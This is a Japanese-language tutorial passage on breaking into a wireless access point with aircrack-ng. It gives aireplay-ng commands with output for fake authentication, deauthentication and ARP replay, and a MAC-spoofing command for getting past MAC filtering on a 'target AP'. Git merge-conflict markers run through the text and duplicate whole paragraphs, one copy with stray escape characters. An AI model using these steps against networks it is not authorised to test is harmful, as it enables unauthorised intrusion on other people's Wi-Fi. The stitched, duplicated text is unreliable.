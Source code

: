 \# aireplay\-ng \-1 0 \-a 00:11:22:33:44:55 \-h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ \-e niceboat ath1
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
12:34:19 Waitig for beacon frame (BSSID: 00:11:22:33:44:55)
12:34:19 Sending Authentication Request 
12:34:19 Authentication successful 
12:34:19 Sending Association Request 
<<<<<<< HEAD
12:34:19 Association successful :-) 
-----

　このとき、ターゲットAPがMACアドレスによるアクセス制限をしているような場
合は、使用するNICのMACアドレスをairodump-ngのSTATIONに表示されたターゲッ
トAPに接続しているユーザーのものに変更しておきましょう。「ifconfig <変更
するNIC> hw ether <使いたいMACアドレス>」でできます。ターゲットAPに接続し
ているユーザーがいない場合は潔く諦めてください（笑
　また、ターゲットAPがANY接続拒否していると、ESSIDがairodump-ngで<length
: ?>と表示されてしまって見ることができません。こんな場合には「aireplay-n
g -0 1 -a <ターゲットAPのBSSID> <使用するNIC>」を何度か繰り返すことで、そ
のうちairodump-ngで確認可能になるハズです。これもターゲットAPに接続してい
=======
12:34:19 Association successful :\-) 
\-\-\-\-\-

　このとき、ターゲットAPがMACアドレスによるアクセス制限をしているような場
合は、使用するNICのMACアドレスをairodump\-ngのSTATIONに表示されたターゲッ
トAPに接続しているユーザーのものに変更しておきましょう。「ifconfig <変更
するNIC> hw ether <使いたいMACアドレス>」でできます。ターゲットAPに接続し
ているユーザーがいない場合は潔く諦めてください（笑
　また、ターゲットAPがANY接続拒否していると、ESSIDがairodump\-ngで<length
: ?>と表示されてしまって見ることができません。こんな場合には「aireplay\-n
g \-0 1 \-a <ターゲットAPのBSSID> <使用するNIC>」を何度か繰り返すことで、そ
のうちairodump\-ngで確認可能になるハズです。これもターゲットAPに接続してい
>>>>>>> 82c9994b6232b32daccdf031aaba412934bfa781
るユーザーがｒｙ。

　そして次にどうやってパケットを送信するかですが、これはターゲットAPに接
続しているユーザーのアクセスがあるかないかでルート分岐が発生します。使い
分けるのがめんどくせえ！　って人は後者の方法だけでオッケーです。

　では、まずはアクセスがある場合での方法でレッツラゴーすることにしましょ
う。
　この場合は空気中に漂ってるARPリクエストを元にパケットを送信するarprepl
<<<<<<< HEAD
ayをしますので、「aireplay-ng -3 -b <ターゲットAPのBSSID> -h <使用するNI
CのMACアドレス> <使用するNIC>」と入力してください。実行後、airodump-ngの
#Dataがとりつかれた様にどんどん増えていくのがわかると思います。

-----
# aireplay-ng -3 -b 00:11:22:33:44:55 -h ZZ:ZZ:ZZ:ZZ:ZZ:ZZ ath1
Saving ARP requests in replay_arp-0123-456789.cap
You must also start airodump to capture replies.
Read 51 packets (got 0 ARP requests), sent 0 packets...
-----
